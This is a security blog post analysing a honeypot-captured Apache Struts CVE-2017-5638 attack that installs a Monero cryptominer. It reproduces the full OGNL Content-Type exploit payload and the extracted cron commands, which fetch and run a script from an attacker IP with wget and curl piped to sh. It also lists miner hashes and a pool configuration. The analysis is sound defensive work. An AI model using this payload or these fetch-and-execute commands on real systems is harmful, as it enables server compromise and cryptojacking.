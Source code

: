 ```yaml
---
title: From Apache Struts to Cryptominer.
description: Hackers attacking web servers, running Java, with Apache Struts 2 exploits to install cryptominers on Linux/Windows powered machines.
layout: post
permalink: from-apache-struts-to-cryptominer
image: "img/apache_struts_cryptominer.png"
---
```

Remember Equifax hack and data of millions being stolen? Then you should also remember the Apache Struts 2 vulnerability, used during that attack. This sounds like an old news, but it seems to be exploited even to the day of this post. Someone is attacking web servers successfully and installs cryptominers, adding victims to a Monero pool.

## Stage #1. Apache Struts 2 vulnerability (CVE-2017-5638).

For those who doesn't know (or need a refresher) what is `CVE-2017-5638`; this is a vulnerability found in Apache Struts leading to RCE (remote code execution). Attacker has to send a crafted request to upload a file to the vulnerable server, injecting malicious code in the `Content-Type` header. 

For more details, check [this nice article from TrendMicro](https://blog.trendmicro.com/trendlabs-security-intelligence/cve-2017-5638-apache-struts-vulnerability-remote-code-execution/ "Apache Struts 2").

In my case, one of the honeypots mimicking Apache Tomcat got an interesting HTTP request (see below).

```python
GET /images/upload HTTP/1.1
Host: <REDACTED>
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" | crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
X-Forwarded-For: 5.188.10[.]251
```

The extracted bash command looks like this:

```bash
echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" \
| crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh
```

As you already noticed, the stage 1 of this attack is following next steps:

- Checks what type of OS is running on exploited server (Linux or Windows);
    - _Looks like, attackers are trying their against Windows boxes, in case Linux tools are installed_;
- Creates 2 cronjobs, which are running every 19th and 20th minutes;
    - _This is malware's persistence mechanism;_
    - _Every time it downloads `logo.jpg` file and executes it as shell script;_
    - _I think attackers messed up here and instead of using 2 different IPs, in case one goes down, used same one (5.188.87[.]12) everywhere;_
- Downloads `logo.jpg` file using `wget` command and executes the file;



## Stage #2. The pseudo-JPG file.

Stage 2 of this attack is execution of `logo.jpg` as a shell script. It is meant to look for other cryptominers running on the system and terminating those processes (_removing old versions or eliminating competitors?_).

![Stage 2. Terminating processes](../img/miner_shell_script_1.png){:.post_image}

Once other miners have been stopped, there is kind of a MUTEX check implemented. Malware checks if none of specified files are used by any process on the system; then downloads Monero miner and it's configuration file `kworker.conf`.

![Stage 2. MUTEX checks. Monero Miner download](../img/miner_shell_script_2.png){:.post_image}

There are 2 available versions of cryptominer and on of them is dropped if `AES-NI` instructions set is not supported by the processor:

```bash
cat /proc/cpuinfo|grep aes>/dev/null
```

## Stage #3. Cryptominer.

As mentioned above, malicious shell script drops one of the two available versions of `cpuminer 2.3.3`, one for `AES-NI` able processors and for those without support. The version and build time can be found by running `strings` tool against the binaries.

![Stage 3. cpuminer 2.3.3](../img/cpuminer_strings.png){:.post_image}

Below are the checksums of the binaries, which were already uploaded on VirusTotal, long time before the attack.

```bash
MD5:    c7500149e5ae8f34ffd482057023ab41  atd_1
MD5:    54b0f140da40e5713377f4d4a8f143ad  atd_2
SHA256: 9359f7e7b1dd0f4ce4a2c52fe611c981a3dd7a17f935862e3ce9acb5f2df8ced  atd_1
SHA256: f4864b3793c93de50b953e9751dc22e03fa0333ae6856d8d153be9018da6d911  atd_2
```

Configuration file is saved in `wcubpiztlk.conf` and contains information like pool address, user name and the algorithm used.

```json
{
    "url" : "stratum+tcp://158.69.25[.]77:80",
    "user" : "49mQCzecsC6TS1sNBj5XQX4dNG8MESvLGLPHYJLKohVCQivAB5jJw2xHokTpjtSfE3D8m2U3JjDGEWJMYLrN216CM3dRpBt",
    "pass" : "x",
    "algo" : "cryptonight",
    "quiet" : true
}
```

## Thoughts. Conclusion.

Based on available information on the Internet, 158.69.25[.]77 points to `ca[.]minexmr[.]com`. This particular server is situated in Canada. Knowing that reporting server should be as close to the miners (_in our case victims_), I assume that the majority of targets are planned to be in US and Canada, because using an European server for a victim based in US could increase the _loses_ (a.k.a expired shares).

![MineXMR Servers](../img/miner_servers.png){:.post_image}

![Miners Profit](../img/miner_profit.png){:.post_image}

Even if CVE-2017-5638 was fixed relatively fast, attackers had success exploiting this for another year or so. This earned them 314.485 XMR (~ $15.286) *at least*.

As a conclusion, I would say PATCH! PATCH! and PATCH! This is the easiest and *cheapest* way to stay mitigate a a big part of security risks.